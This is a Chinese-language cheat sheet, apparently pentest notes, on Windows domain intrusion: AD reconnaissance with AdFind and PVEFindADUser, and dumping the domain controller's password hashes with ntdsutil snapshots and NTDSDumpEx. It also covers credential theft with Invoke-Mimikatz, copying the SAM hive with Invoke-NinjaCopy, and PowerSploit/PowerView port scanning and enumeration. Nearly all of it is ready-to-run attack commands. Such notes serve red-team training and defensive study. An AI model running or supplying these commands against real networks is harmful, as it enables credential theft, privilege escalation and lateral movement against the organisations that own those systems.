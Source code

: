 # 域内信息收集

#### 工具使用 <a id="-"></a>

**Nslookup**

```text
nslookup                               # 进入交互式界面
set type=all                           # 设置记录类型，可以设置为srv
_ldap._tcp.dc._msdcs.school.com        # 执行查询
```

![](https://p408.ssl.qhimgs4.com/t01be3de08f6804bad5.png)

**ADFind.exe**

**列出域控列表**

```text
Adfind.exe -sc dclist
```

![](https://p408.ssl.qhimgs4.com/t01934a50207fb10678.png)

**查询域中活动的主机,输出主机名和域名**

```text
AdFind.exe -sc computers_active name dnshostname
```

![](https://p408.ssl.qhimgs4.com/t016559ab85e7c1be09.png)

**查询域中活动的主机详细信息**

```text
AdFind.exe -b dc=school,dc=com -f "objectcategory=computer"
```

**查询域管理员账户（未成功）**

```text
AdFind.exe -b cn="domain admins",dc=school,dc=com member
```

![](https://p408.ssl.qhimgs4.com/t01f999bfe7d660d9ee.png)

**从结果中筛选出SPN及域名**

```text
Adfind -sc computers_active servicePrincipalName dnshostname
```

![](https://p408.ssl.qhimgs4.com/t01e21125130370470c.png)

![](https://p408.ssl.qhimgs4.com/t013bc5019cd01ba979.png)

**PVEFindADUser.exe**

**显示每台计算机上登录的用户**

```text
PVEFindaduser -current  -noping
```

![](https://p408.ssl.qhimgs4.com/t01718b25eda524998e.png)

**查看192.168.111.251主机上登录的用户**

```text
PVEFindADuser  -current  -target 192.168.111.251
```

![](https://p408.ssl.qhimgs4.com/t01a72d1219bdf9e1a7.png)

**查看每台计算机上次登录的用户**

```text
PVEFindADuser  -last
```

![](https://p408.ssl.qhimgs4.com/t017339458e67628760.png)

**Netview.exe**

![](https://p408.ssl.qhimgs4.com/t0118f9037e8d094793.png)

**Netsess.exe**

![](https://p408.ssl.qhimgs4.com/t01f6e81c4b91af191c.png)

**csvde.exe （域控）**

**在域控上使用csvde导出用户信息、域成员主机信息，域管理员信息**

用户信息：

![](https://p408.ssl.qhimgs4.com/t01fbc8f88fe54d5e34.png)

域成员主机信息：

![](https://p408.ssl.qhimgs4.com/t01eecfee255fab0df7.png)

域管理员信息：

![](https://p408.ssl.qhimgs4.com/t01bc155610307cec6a.png)

#### 导出域控中用户HASH <a id="-hash"></a>

**ntdsutil**

```text
ntdsutil snapshot "activate instance ntds" create quit quit
```

![](https://p408.ssl.qhimgs4.com/t01ee3b30ebdf8690a9.png)

```text
ntdsutil snapshot "mount {GUID}" quit quit
```

![](https://p408.ssl.qhimgs4.com/t01cf7745994c6d1b89.png)

将文件复制出来

![](https://p408.ssl.qhimgs4.com/t015e8df8bfa606b657.png)

```text
ntdsutil snapshot "unmount {GUID}" quit quit
ntdsutil snapshot " delete {GUID} " quit quit
```

![](https://p408.ssl.qhimgs4.com/t01fe021e53e226cb75.png)

**Ntdsdumpex.exe**

域控上运行：

```text
Ntdsdumpex.exe -r -d C:\temp\ntds.dit –o hash.txt
```

![](https://p408.ssl.qhimgs4.com/t01e615aa5c29e7b48e.png)

本地运行：

```text
Ntdsdumpex.exe -r
```

![](https://p408.ssl.qhimgs4.com/t01696dad547346bb00.png)

```text
NTDSDumpEx.exe -k 4D54B7E7F7C6541D4FF486B8A83DC5B1 -d ntds.dit -o hash.txt
```

#### Powershell使用 <a id="powershell-"></a>

**PowerSploit**

**Invoke-Mimikatz（依赖管理员）**

```text
Import-Module .\invoke-mimikatz.ps1
Invoke-Mimikatz –DumpCreds
```

![](https://p408.ssl.qhimgs4.com/t017708ff8b64222255.png)

使用Invoke-Mimikatz –command “mimikatz命令”来执行命令：

![](https://p408.ssl.qhimgs4.com/t01f16508152e83b83f.png)

**Invoke-Ninjacopy （依赖管理员）**

直接拷贝系统文件：

![](https://p408.ssl.qhimgs4.com/t01c50682002c2733c5.png)

```text
Import-Module .\invoke-ninjacopy.ps1
invoke-ninjacopy -Path C:\Windows\System32\config\SAM -LocalDestination C:\Users\linghuchong\Desktop\SAM
```

![](https://p408.ssl.qhimgs4.com/t0198f5583b84dba02c.png)

**Get-System \(依赖管理员\)**

![](https://p408.ssl.qhimgs4.com/t010b5eb6050f0694cd.png)

**Invoke-Portscan**

**扫描Top50端口：**

```text
Invoke-POrtscan –Hosts ip地址 –TopPorts 50
```

**扫描特定端口：**

```text
Invoke-Portscan –Hosts ip地址 –Ports 端口
```

![](https://p408.ssl.qhimgs4.com/t01be719435d7ec0785.png)

**Invoke-ReverseDnsLookup**

反向解析IP地址：

![](https://p408.ssl.qhimgs4.com/t0101abbf8514013e30.png)

**Invoke-Wmicommand**

![](https://p408.ssl.qhimgs4.com/t01ca6a1e87e5875386.png)

**PowerView**

**Get-NetDomain**

![](https://p408.ssl.qhimgs4.com/t013942e21dbea6aab9.png)

**Get-NetDomainController**

![](https://p408.ssl.qhimgs4.com/t01449c932a7ce0c2e2.png)

**Invoke-ProcessHunter –ProcessName 进程名**

![](https://p408.ssl.qhimgs4.com/t011f501d7648ecc9fd.png)

**Get-NetShare获取共享信息**

![](https://p408.ssl.qhimgs4.com/t016a895bef2666965a.png)

